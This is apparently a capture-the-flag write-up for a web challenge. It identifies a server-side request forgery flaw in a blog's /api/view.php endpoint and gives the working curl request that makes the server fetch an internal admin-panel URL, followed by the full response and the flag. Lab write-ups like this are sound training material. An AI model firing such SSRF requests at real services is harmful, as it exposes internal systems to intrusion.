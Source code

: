The vulnerable part of the code is this code snippet
'''
  
    <script>
        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });
'''
The api endpoint code loads any url submitted to it and it makes it susceptible to Server side request forgery which occurs when a website is induced to load a particular url.
The main task in the challenge is to load a url that can't be accessed outside.With the vulnerable part of site,I used curl to solve it by submitting the url that can't be accessed outside except eithin the server.
#THE CURL request 
curl https://ecorpblog.uctf.ir/api/view.php -v -X POST --header 'Content-Type:application/json' -d '{"post": "http://admin-panel.local/"}'
####
####RESPONSE#####
* Using Stream ID: 1
> POST /api/view.php HTTP/2
> Host: ecorpblog.uctf.ir
> User-Agent: curl/8.2.1
> Accept: */*
> Content-Type:application/json
> Content-Length: 37
>
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* old SSL session ID is stale, removing
< HTTP/2 200
< date: Sun, 03 Sep 2023 13:33:41 GMT
< content-type: application/json
< content-length: 50
< vary: Accept-Encoding
< x-powered-by: PHP/7.2.34
< x-xss-protection: 1; mode=block
< server: ArvanCloud
< x-sid: 4101
< server-timing: total;dur=98
< x-request-id: b72a53f22b5cf18d0b1bb14a5cf75106
< accept-ranges: bytes
<
* Connection #1 to host ecorpblog.uctf.ir left intact
{"status":"success","post":"uctf{4z174_1n_urm14}"}
#########$
